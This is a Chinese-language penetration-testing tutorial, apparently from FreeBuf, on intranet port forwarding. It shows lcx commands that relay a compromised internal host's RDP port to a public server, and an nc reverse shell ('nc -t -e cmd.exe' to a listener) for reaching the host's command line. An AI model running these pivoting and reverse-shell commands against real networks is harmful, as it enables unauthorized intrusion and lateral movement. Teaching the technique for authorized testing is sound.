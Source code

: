 # 浅谈内网端口转发

[cmdgaga ](https://www.freebuf.com/author/cmdgaga)2019-08-20 13:30:15 441651 8

**在渗透测试过程中，我们经常会用到端口转发，利用代理脚本将内网的流量代理到本地进行访问，这样极大的方便了我们对内网进行横向渗透。最常见的端口转发工具不限于以下几款，大家可以根据在实际测试过程的需要进行选择。**

![img](https://image.3001.net/images/20190806/1565081776_5d4940b066822.png!small)

## 开门见山

### lcx端口转发

前提是在端口转发的时候需要一台公网服务器，lcx是一款轻便的端口转发工具，Lcx程序多用于被控制计算机处于内网的时候，被控制机可能中了木马程序，虽然能够进行控制，但还是没有使用远程终端登录到本机进行管理方便，因此在很多情况下，都会想方设法在被控制计算机上开启3389端口，然后通过lcx等进行端口转发，进而在本地连接到被控制计算机的远程终端并进行管理和使用。在没有端口转发的情况下外网主机是不能直接连接内网主机的，但是lcx工具可以将内网主机（出入内网主机的需要能够ping通互联网）的某个端口抓发到外网的某个端口上面，这样的话处于外网的主机可以将映射到外网的端口再反弹到另一个外网的端口上面（用的最多的是3389），这样我们就可以直接远程连接反弹的端口就可以与内网主机进行通信。故内网已经打通，说实话lcx的工具如同在路由器上面做了端口转发。

![img](https://image.3001.net/images/20190806/1565084440_5d494b183ed27.png!small)

在被控制端执行命令：lcx.exe -slave 192.168.205.1 53 192.168.205.143 3389 //将内网3389端口转发到公网53端口；

在控制端执行命令：lcx.exe -tran 53 1234 //将接收到的53端口反弹到1234端口；

执行完毕后，我们会发现内网的3389已经反弹到公网53端口：

![img](https://image.3001.net/images/20190806/1565085503_5d494f3feeaf1.png!small)

我们本地远程连接192.168.205.1:1234,就可以访问到内网主机,这样我们就可以远程登陆内网服务器，进行内网的横向扫描（请勿非法使用）：

![img](https://image.3001.net/images/20190806/1565085558_5d494f765ff26.png!small)

![img](https://image.3001.net/images/20190806/1565085558_5d494f767164e.png!small)

### nc端口转发

nc这个工具不仅可以反弹端口，也可以作为扫描器使用，在这里我们只是介绍一下端口转发的作用。内网服务器将cmd.exe(就是个shell)主动响应到你电脑的777端口。你再在本地机上监听777端口，这样就进入了对方的cmd了。

我们在分别在内网与公网服务器执行以西命令：

nc -t -e cmd.exe 192.168.205.1 8888 //在内网服务器上面执行此命令，将在公网服务器开启一个cmd的窗口；

nc -lvp 8888 //在公网服务器上面执行此命令，接受来自内网的信息，将信息反馈到公网的8888端口；

当我们端口转发成功后，在公网服务器上面会反弹一个cmd的命令窗口，这个就是内网服务器的，在上面可以执行系统命令，如下图所示：

![img](https://image.3001.net/images/20190807/1565140673_5d4a26c18ef24.png!small)

![img](https://image.3001.net/images/20190807/1565140684_5d4a26cc45501.png!small)

![img](https://image.3001.net/images/20190807/1565140684_5d4a26cc4e1a2.png!small)
